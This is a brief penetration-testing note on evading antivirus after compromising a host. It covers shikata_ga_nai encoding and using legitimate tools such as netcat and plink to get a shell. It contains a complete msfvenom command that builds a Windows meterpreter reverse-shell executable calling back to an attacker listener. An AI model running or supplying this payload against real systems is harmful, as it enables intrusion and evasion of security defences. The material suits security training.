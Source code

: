 # AntiVirus Bypass

So we've compromised a host but AV is preventing us from doing much interesting.  Let's work out how to evade it.

## shikata\_ga\_nai

Perhaps the least effective of all these methods is the shikata\_ga\_nai encoding within the msfvenom payload generator.  This wasn't designed to evade AV and is more a tool for removing unwanted characters, but nevertheless it did prove effective in some cases of evading AV.  Since vendors have access to metasploit now, most AV will detect it.

I have had some luck with this but with very uncommon or simple payload types, and something like embedding a meterpreter almost never worked:

```text
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=1234 -f exe -e x86/shikata_ga_nai -i 9 -o shell.exe
```

## Non-Malicious Binaries

> If you don't want to trigger AV, use something AV isn't looking for!

Several binaries have uses as part of system administration or just general computing tasks but can also aid you in achieving a shell or moving your payload onto the system in memory.  In this cases binaries like netcat, [plink ](https://putty.org/)and others can be placed on the remote machine and generally will not trigger the antivirus alert.

You can use techniques like this to aid in escalating and keeping the actual malicious payloads in memory.  This is unlikely to be a defence against Next-Gen AV however.

